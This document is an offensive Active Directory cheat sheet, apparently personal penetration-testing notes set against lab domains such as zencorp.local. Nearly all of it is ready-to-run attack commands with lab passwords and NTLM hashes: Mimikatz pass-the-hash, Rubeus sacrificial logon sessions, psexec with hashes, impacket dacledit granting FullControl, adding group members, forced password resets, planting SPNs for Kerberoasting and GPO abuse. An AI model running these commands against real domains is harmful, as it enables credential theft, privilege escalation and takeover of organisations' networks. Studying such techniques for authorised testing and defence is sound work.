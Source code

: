 # Essentials

### <mark style="color:yellow;">PowerView Enumeration</mark>

<pre class="language-powershell"><code class="lang-powershell"><strong># Check user
</strong>Get-NetUser -Identity svc_adm
<strong>
</strong><strong># Check my group membership of user:
</strong>Get-NetUser -Identity svc_adm | Select-Object MemberOf

# Check what groups I belong to
Get-DomainGroup -MemberIdentity sarah.lafferty

# Check members of a group using nxc
 nxc smb 172.16.116.3 -u svc_sql -p pass123 --groups "Exchange Windows Permissions"

# Check ACLs on group
$sid = ConvertTo-SID joe.evans
Get-DomainObjectAcl -Identity 'Security Operations' | ?{ $_.SecurityIdentifier -eq $sid}

# Get Rights of user
$sid = Convert-NameToSid mczen
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}

# Get rights over other user
$userSID = (Get-DomainUser -Identity pedro).objectsid
Get-DomainObjectAcl -Identity rita | ?{$_.SecurityIdentifier -eq $userSID}

# Get usernames in domain
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName

# Check rights over other users
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'ZENCORP\\mczen'}}
$guid= "00299570-246d-11d0-a768-00aa006e0529" 
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
</code></pre>

### <mark style="color:yellow;">Mimikatz</mark>

Use mimikatz to start new powershell session with a hash

```powershell
.\mimikatz.exe privilege::debug "sekurlsa::pth /user:jose /ntlm:fa61a89e878f8688afb10b515a4866c7 /domain:zencorp.local /run:powershell.exe" exit
```

### <mark style="color:yellow;">Sacrificial process</mark>

```bash
.\Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show

# With password
.\Rubeus.exe createnetonly /program:powershell.exe /username:holly /password:'Password123!' /domain:zencorp.local /show

# With hash
Rubeus.exe createnetonly /program:powershell.exe /username:holly /ntlm:HASH_VALUE /domain:zencorp.local /show
```

### <mark style="color:yellow;">Delegations</mark>

```bash
findDelegation.py -target-domain zencorp.local -dc-ip 172.16.92.10 -dc-host dc02 zencorp.local/gabriel:Godisgood001
```

### <mark style="color:yellow;">WinRM</mark>

```bash
# Execute command on remote system
Invoke-Command -ComputerName srv02 -ScriptBlock { whoami }
winrs -r:srv02 "powershell -c whoami;hostname"

# Interactive shell
Enter-PSSession ws01.zencorp.local
```

### <mark style="color:yellow;">Shell</mark>

```bash
psexec.py 'inlanefreight.local/administrator@10.129.218.254' -hashes :09721250b7544a54058c270807c62488
```

### <mark style="color:yellow;">Enumeration Linux</mark>

```bash
# Find delegations
findDelegation.py -target-domain zencorp.local -dc-ip 172.19.99.10 inlanefreight.local/taino:Adrian01

# # Check rights over user
dacledit.py zencorp.local/taino:Adrian01 -target 'db2000$'

# Check rights over user
dacledit.py zencorp.local/taino:Adrian01 -principal taino -target 'db2000$'
```

### <mark style="color:yellow;">DACL Linux</mark>

```powershell
# Grant user rights FullControl
python3 dacledit.py -principal remote_svc$ -target 'IT Admins' -dc-ip 10.129.218.254 zencorp.local/remote_svc$ -hashes :02079074b002235d8792b0c5bfb93fb4 -action write -rights FullControl

# Add member
pth-net rpc group addmem "IT Admins" "remote_svc$" -U zencorp.local/remote_svc$%ffffffffffffffffffffffffffffffff:02079074b002235d8792b0c5bfb93fb4 -S "10.129.218.254"
```

### <mark style="color:yellow;">Enumeration Windows</mark>

```powershell
# Get Users in domain
Get-User -Filter * -Property Name | Select-Object -ExpandProperty Name

# Get Computers in domain
Get-ADComputer -Filter * -Property Name | Select-Object -ExpandProperty Name

# Check permission over user
dsacls.exe "cn=Sam,cn=users,dc=inlanefreight,dc=local" | Select-String "Pedro" -Context 0,3

# Fetch ACEs pedro has over sqladmin
$pedroSID = (Get-DomainUser -Identity pedro).ObjectSID
Get-DomainObjectAcl -Identity sqladmin | ? {$_.SecurityIdentifier -eq $pedroSID}

# Get SPN attribute
Get-DomainComputer SRVWEB07 | Select-Object -ExpandProperty serviceprincipalname

# Get user SPN
(Get-DomainUser -Identity Felipe).serviceprincipalname

# Check msDS-KeyCredentialLink for Shadow creds
Get-DomainUser -Filter '(msDS-KeyCredentialLink=*)'

# Query ScriptPath
Get-DomainObject benjamin -Properties scriptPath

# Get Constrained delegation orphans
Import-Module .\PowerView.ps1
Import-Module .\Get-ConstrainedDelegation.ps1
Get-ConstrainedDelegation -CheckOrphaned

# Convert from SID
ConvertFrom-SID S-1-5-21-831407601-1803900599-2479021482-1112

# Get DomainOU
Get-DomainOU -Properties name,gplink

# Get name GPO
Get-GPO -Guid 8F3E10E7-E9FC-43C7-A58F-3ECFFBF69756

# Create new GPO
New-GPO -Name "AngelGPO" -Verbose

# Create and link GPO
Import-Module .\PowerView.ps1
Import-Module .\Get-GPOEnumeration.ps1
Get-GPOEnumeration -CreateGPO
Get-GPOEnumeration -LinkGPOs
```

#### Checking group permissions by getting ACL list.

```bash
# Import AD module
Import-Module ActiveDirectory

# Check group memberships
Get-ADGroupMember -Identity "Cert Publishers"

# Get ACL list
(Get-ACL -Path "AD:\CN=Cert Publishers,CN=Users,DC=sequel,DC=htb").Access | Format-Table IdentityReference, ActiveDirectoryRights, AccessControlType

# Check permission over group
Get-ACL -Path "AD:\CN=Domain Admins,CN=Users,DC=sequel,DC=htb" | Select-Object -ExpandProperty Access
```

### <mark style="color:yellow;">DACL Windows</mark>

```powershell
# Grant user rights FullControl
Add-DomainObjectAcl -TargetIdentity TechSupport -PrincipalIdentity jose -Rights All

# Add member
Add-DomainGroupMember -Identity TechSupport -Members jose 

# Set SPN on target
$SecPassword = ConvertTo-SecureString 'Music001' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('LAB\jeffry', $SecPassword)
Set-DomainObject -Credential $Cred -Identity martha -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}

# Change password
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity elieser -AccountPassword $UserPassword -Verbos

# Sacrifical process
.\Rubeus.exe createnetonly /program:powershell.exe /username:elieser /password:'Password123!' /domain:zencorp.local /show

# Clear and Set SPN
Set-DomainObject -Identity SRVWEB07 -Clear 'serviceprincipalname' -Verbose
Set-DomainObject -Identity WEB01 -Set @{serviceprincipalname='MSSQL/SRVWEB07'} -Verbose
```
